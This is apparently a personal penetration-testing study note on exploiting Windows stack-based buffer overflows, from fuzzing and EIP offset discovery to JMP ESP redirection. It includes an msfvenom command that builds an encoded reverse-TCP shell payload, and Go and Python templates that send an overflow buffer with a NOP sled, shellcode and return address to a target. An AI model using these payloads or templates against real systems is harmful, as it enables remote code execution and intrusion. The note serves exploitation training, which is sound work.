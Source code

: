 # Stackbased Buffer Overflows

## General Approach
Incremental stepping through your exploitation PoC on non-target enivornment to test **EACH** step to 

## Finding the vulnerability
1. Source code review
	1. Find vulnerable functions
2. [Fuzzing](https://en.wikipedia.org/wiki/Fuzzing)
	1.  Fuzz any input fields
3. Reverse Engineering
	1. Find vulnerable functions

Before getting excited consider if the target machine is protected with [[Binary-Exploitation-Protections]]

## Fuzzing HTTP protocol
[Microsoft TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) if debugger network listening does not work.

1. Use [[Wireshark]] to monitor traffic sent to application and follow TCP stream to show reply. 
2. [[Useful_Python]] PoC 
3. Run debugger Administrative priveleges attached to running of the vulnerable application
	1. Or for Windows [tcpview if immunity debugger listen column unavaliable](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)
	2. Attach process with immunity debugger

## Buffer Overflow Exploitation
Be aware alot of restarting required.

Note the  Endianess 

1. Enumerate till location EIP
	1. Binary Tree analysis - use pwntools `cyclic` or `msf-pattern_create -l $int`
	2. Update PoC
1. Check offset(skip binary tree analysis) with `msfpattern_offset -l $int -q $offsetpattern` or pwntools `offset`. From EIP the offset is located at relative memory address higher than EIP - closer to 0x0!.
	1. Add EIP variable to find exact EIP address.
1. Locating space for shellcode
1. Check for bad characters
1. Redirect the execution to flow: - Remember Endianness
	
Due address changing either due crashing-and-restarting application or ASLR ... we can just hardcode a static return address in general in modern binary exploitation.

6. Find a return address
7. Leverage a static address that contains a `JMP ESP`("jumps" to addresws pointed to by ESP) - we redirect EIP to this adderss
	1. Must be static - no libraries compiled with ASLR support
	2. Not an address within the region to be occupied by the shellcode
8. Encoded payloads from [[MSFvenom-Payloads]] are prepended with a decoder stub to decode itself using memory. GetPC routine assmebly instruction to gather memory location of the decoder stub.
	1. shikata_ga_nai write to top of the stack potentially corrupting the address pointed at by the ESP register meaning that the GetPC route execution changes the decoder itself.
	
To avoid this final issue you could:
1. Adjust ESP backward using assemble instructions _DEC ESP_, _SUB ESP, 0xXX_, before executing the decoder
2. Create large area for JMP ESP and NOP sled


## Considerations

1. One consideration depending on the application and the type of vulnerability, there may be restrictions on the length of input passed to the application. In some cases, increasing the length of a buffer may result in a completely different crash. This is due the larger buffer overwrites additional data on the stack that is used by the target application, but could provide extra space for shellcode.

2. Bad characters `-b` flag for [[MSFvenom-Payloads]] followed by a string of hex delimited with `\x`

3. Another being **ExitThread** API with [[MSFvenom-Payloads]] - `EXITFUNC=thread`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10. LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
This avoid crashing the application when you terminate the shell.

4. Staging payload, if you do not have enough space create `stage` that would be equal to a set of opcodes to point to another address, you may require repadding the original buffer with `\x90`s to maintain the correct length.

5. To create the correct opcodes for assembly instructions, use `msf-nasm_shell` from [[Metasploit]].

6. `-v` variable to save as a variable name `-f py` format flag plus the py for python will format it to python variable.

7. Debugger will catch the child process of spawn the shell, remember not to have the debugger attached.

## Tooling
[[Pwntools]], see [[Reverse-Engineering-Tools]]




## APPENDIX:

\\xCC as a graceful break for binex than crashing.

// ENDIANNESS tester
```c
#include <stdio.h>
union s{
	int n;
	char b;
}x;
void main(){
	x.n = 0x4142;
	if(x.b == 0x42){
		printf("Little Endian\n");
	}
	else{
		printf("Big Endian\n");
	}
}
```

#### Templates 

```go
bof := strings.Builder{}
shell := ` `

offset := 608
rip := '0x' //store it to not overflow your own memory
formatRIP := //nice formatting hex function
nopSled := `\x90` 
safeJunk := `\xCC`
* someamount
payloadSize := offset + 8
shellSize := len(shell)
nopSize := len(nopSled)
padding := 'A' * (payloadSize - shellSize - nopSize)

bof.WriteString(nopSled, shell, padding, formatRIP)

payload := bof.String()

fmt.Printf("%s", payload)
```

```python
#!/usr/bin/python
import socket

host = "<ip_address>"
port = <port_number_as_int>

nop_sled = "\x90" * <nop_sled_size>

# stick the msfvenom payload command here for reference
shellcode = ""
... # Shellcode goes here


padding = "\x41" * (<padding_size_as_int> - len(nop_sled) - len(shellcode))

eip = "<eip_hex_address>" # remember endianness
stager = "<insert_opcodes_here>" # msf-nasm_shell to create opcode

buffer = f"<useful_string_if_required >{padding}{eip}{stager}\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print("[*] Sending evil buffer...")

s.connect((host, port))
print(f"{s.recv(1024)}")

s.send(buffer)
s.close()

print("[*] Payload Sent !")
```